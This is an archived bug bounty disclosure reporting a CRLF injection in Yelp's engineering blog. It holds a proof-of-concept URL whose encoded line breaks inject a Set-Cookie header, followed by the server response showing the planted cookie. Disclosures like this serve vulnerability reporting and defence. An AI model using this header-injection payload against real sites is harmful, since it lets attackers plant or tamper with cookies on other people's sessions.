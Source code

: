 # [engineeringblog.yelp.com] CRLF Injection

## Report Details
- **Report ID**: 66391
- **URL**: https://hackerone.com/reports/66391
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-06-07T09:02:26.025Z
- **Disclosed**: 2017-11-09T20:12:42.951Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
CRLF Injection via Request-URI

PoC:

```
https://engineeringblog.yelp.com/xxcrlftest%0d%0aSet-Cookie:%20test=test;domain=.yelp.com
```
HTTP Response:
```
HTTP/1.1 301 Moved Permanently
...
Location: http://engineeringblog.yelp.com/xxcrlftest
Set-Cookie: test=test;domain=.yelp.com
```
Result:
Creating a cookie-param "test=test" on *.yelp.com

## Attachments
No attachments
